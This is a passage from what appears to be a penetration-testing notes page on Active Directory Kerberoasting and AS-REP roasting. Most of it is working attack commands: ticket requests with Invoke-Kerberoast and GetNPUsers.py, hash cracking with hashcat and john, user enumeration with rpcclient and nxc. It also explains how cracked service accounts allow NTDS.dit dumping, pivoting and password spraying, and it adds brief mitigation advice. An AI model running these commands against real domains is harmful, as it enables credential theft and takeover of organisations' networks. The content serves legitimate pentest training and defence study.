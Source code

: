 # Now lets load this into memory: 
Invoke-Kerberoast -OutputFormat hashcat |fl
<strong># Crack the hash
</strong><strong>hashcat -m 13100 -​a 0 hash.txt $wordlist --force
</strong>john hashes.txt --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt
</code></pre>
{% endtab %}

{% tab title="Overview" %}
Kerberoasting allows a user to request a service ticket for any service with a registered Service Principal Name (SPN, the mapping between service and account), and then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like **BloodHound** to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain.&#x20;

#### What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the `NTDS.dit`. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.
{% endtab %}

{% tab title="Mitigation" %}
* Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
* &#x20;Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.
{% endtab %}
{% endtabs %}

### AS-REP Roasting

{% tabs %}
{% tab title="Exploitation" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># Collect users 
</strong>rpcclient -U 's4vicorp.local\mvazquez%Password1' 10.0.2.15 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users
# HOW TO MAKE IT VULNERABLE -> set preauth for Kerberos
DC > Server Manager > Active Directory Users and Groups > $WHATEVER_USER_WITH_SPN > Account > Do not require Kerberos preauth
GetNPUsers.py -dc-ip 10.0.2.48 s4vicorp.local/ -usersfile users
<strong>
</strong>nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
<strong>
</strong><strong>################### IMPACKET
</strong>A list of usernames (got by Kerbrute previously) is needed
GetNPUsers.py -dc-ip $IP -request $DOMAIN
GetNPUsers.py -dc-ip 10.10.10.161 -request htb.local/

